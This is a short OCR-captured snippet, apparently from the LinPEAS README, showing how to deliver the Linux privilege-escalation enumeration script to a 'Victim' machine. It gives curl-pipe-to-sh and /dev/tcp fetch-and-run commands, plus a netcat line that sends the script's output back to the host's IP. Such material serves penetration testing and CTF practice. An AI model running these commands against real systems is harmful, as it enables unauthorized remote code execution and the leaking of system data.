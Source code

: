 `HOW TO USE LINPEAS`
#Local network
 sudo python -m SimpleHTTPServer 80 #Host
 curl 10.10.10.10/linpeas.sh | sh #Victim

 #Without curl
 sudo nc -q 5 -lvnp 80 < linpeas.sh #Host
 cat < /dev/tcp/10.10.10.10/80 | sh #Victim

 #Excute from memory and send output back to the host
 nc -lvnp 9002 | tee linpeas.out #Host
 curl 10.10.14.20:8000/linpeas.sh | sh | nc 10.10.14.20 9002 #Victim
